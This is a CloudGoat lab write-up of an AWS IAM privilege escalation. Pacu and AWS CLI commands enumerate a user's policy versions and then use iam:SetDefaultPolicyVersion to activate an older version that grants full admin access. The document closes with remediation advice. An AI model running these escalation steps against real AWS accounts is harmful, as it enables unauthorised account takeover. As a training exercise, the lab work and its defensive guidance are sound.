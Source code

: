 # 🚀 CLOUD GOAT - IAM Privilege Escalation via  ROLLBACK - `iam:SetDefaultPolicyVersion` (Rollback Attack)

## 📝 TL;DR

An IAM user with **`iam:SetDefaultPolicyVersion`** can escalate privileges by reverting a policy to a **previous version** that contains **over-permissive access** (e.g., `AdministratorAccess`).  
We identify such a version (`v3`), and simply run `set-default-policy-version` to take over the account.

---

We start with some credentials for an AWS IAM user. The keys have been redacted for obvious reasons:

```bash
aws configure --profile raynor
```

Once the credentials are set, I fire up Pacu to see what kind of access I have:

```jsx
Pacu (raynor:No Keys Set) > import_keys raynor
Imported keys as "imported-raynor"
```

Now time to enumerate:

```jsx
Pacu (raynor:imported-raynor) > run iam__enum_permissions
```

Then confirm identity and scope:

```jsx
Pacu (raynor:imported-raynor) > whoami
```

We're operating as an IAM user:

- **UserName:** `raynor-cgidum7opd03zq`
- **Account ID:** `727671863602`
- **Policy Attached:** `cg-raynor-policy-cgidum7opd03zq`

### ✅ We Have: `iam:SetDefaultPolicyVersion`

This single permission is a **golden ticket** for privilege escalation. Here’s why 👇

---

## 🔓 What is a Rollback Attack?

AWS IAM policies support **up to 5 versions**, but only **one version is active** at a time — the “default.”

If an older version contains **elevated permissions** (like `AdministratorAccess`), and still exists, we can simply **roll back** to it using:

```
iam:SetDefaultPolicyVersion
```

No need to create a new policy or edit anything — we just **activate** an older version.

---

## 🧠 Enumeration Phase

We dig deeper:

```jsx
Pacu > run iam__enum_users_roles_policies_groups
```

This returns:

- 4 Users
- 9 Roles
- 4 Policies
- 0 Groups

We use the AWS CLI to list policies:

```bash
aws iam list-policies --scope All --profile raynor
```

Locate the target:

```json
{
    "PolicyName": "cg-raynor-policy-cgidum7opd03zq",
    "Arn": "arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq",
    "DefaultVersionId": "v1",
    ...
}
```

Now we list the policy versions:

```bash
aws iam list-policy-versions --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq --profile raynor
```

We find 5 versions:

- **v1** (default) — Basic read-only + `SetDefaultPolicyVersion`
- **v2** — Full deny (unless coming from specific IPs)
- **v3** — ⭐ Full `Action: "*"` access (root-level access)
- **v4** — Conditional `iam:Get*` actions
- **v5** — Some S3 read permissions

---

## 🧨 The Escalation

The most permissive version is clearly `v3`, so we activate it:

```bash
aws iam set-default-policy-version   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --version-id v3   --profile raynor
```

Boom 💥 — the IAM policy now grants **full admin access** to the account.

---

## ✅ Confirm the Rollback Worked

```bash
aws iam get-policy   --policy-arn arn:aws:iam::727671863602:policy/cg-raynor-policy-cgidum7opd03zq   --profile raynor
```

You should see:

```json
"DefaultVersionId": "v3"
```

That’s it. We’ve successfully escalated privileges in AWS by rolling back to a previously uploaded over-permissive policy using nothing more than `iam:SetDefaultPolicyVersion`.

---

## 🛡️ Remediation

- **Delete old IAM policy versions** that are no longer in use:
  ```bash
  aws iam delete-policy-version     --policy-arn <POLICY_ARN>     --version-id <VERSION_ID>
  ```

- **Restrict access** to `iam:SetDefaultPolicyVersion` to only trusted admin roles.

- **Enable CloudTrail monitoring** and create alerts for:
  - `iam:SetDefaultPolicyVersion`
  - `iam:CreatePolicyVersion`

- Consider **automated detection** for policies that contain:
  - `Action: "*"`
  - `Resource: "*"`
  - or any **inline policies** with overly broad permissions.

- Implement **least privilege** across all IAM roles and users — revisit periodically.
